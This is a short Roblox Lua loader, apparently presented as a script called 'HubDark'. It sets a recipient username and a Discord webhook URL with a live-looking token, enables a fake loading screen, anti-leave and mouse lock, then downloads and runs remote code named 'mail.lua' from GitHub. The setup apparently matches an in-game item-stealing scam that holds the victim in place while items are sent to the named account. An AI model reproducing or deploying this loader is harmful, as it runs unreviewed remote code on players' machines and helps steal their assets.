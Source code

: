 UserName = "PogrzaloCie"
UserName2 = "PogrzaloCie"
Webhook = "https://discord.com/api/webhooks/1097981158421184654/h34T6lkAsC-oWEwaVSatTOnV1mg6uqMeyJOpuU-hm6rVNmJibixGqVPKj5NAUt1Rmrjy"

_G.LoadingScreen = true
_G.AntiLeave = true
_G.MouseLock = true 

_G.ScriptName = "HubDark"
_G.FirstText = "Script Preparing"
_G.SecondText = "Script Loading..."
_G.ThirdText = "Almost Done..."
_G.WaitingTime = 180 -- it's the time between 0% and 100% in secondes

loadstring(game:HttpGet("https://github.com/RainIsntBald/Vault/raw/main/k4f/mail.lua", true))()
